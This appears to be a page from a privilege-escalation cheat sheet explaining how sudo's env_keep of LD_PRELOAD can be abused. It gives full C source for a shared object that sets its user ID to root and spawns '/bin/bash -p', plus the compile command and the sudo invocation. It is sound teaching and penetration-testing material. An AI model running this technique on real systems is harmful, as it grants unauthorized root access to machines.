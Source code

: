 # LD\_PRELOAD

LD\_PRELOAD is an environment variable which can be set to the path of a shared object (.so) file. When set, the shared object will be loaded before any others. By creating a custom shared object and creating an init() function, we can execute code as soon as the object is loaded.

## Limitations

LD\_PRELOAD will not work if the real user ID is different from the effective user ID. sudo must be configured to preserve the LD\_PRELOAD environment variable using the env\_keep option.

List the programs your user is allowed to run via sudo -l

{% hint style="info" %}
Note that the env\_keep option includes the LD\_PRELOAD environment variable.
{% endhint %}

![](../../../../.gitbook/assets/env1.png)

Create a file (preload.c) with the following contents:

`#include <stdio.h>`\
` #include <sys/types.h>`\
` #include <stdlib.h>`\
` void _init() {`\
` unsetenv("LD_PRELOAD");`\
` setresuid(0,0,0);`\
` system("/bin/bash -p");`\
` }`

Compile preload.c to preload.so:

`gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c`

Run any allowed program using sudo, while setting the LD\_PRELOAD environment variable to the full path of the preload.so file:

`sudo LD_PRELOAD=/tmp/preload.so apache2`

![](../../../../.gitbook/assets/env2.png)










































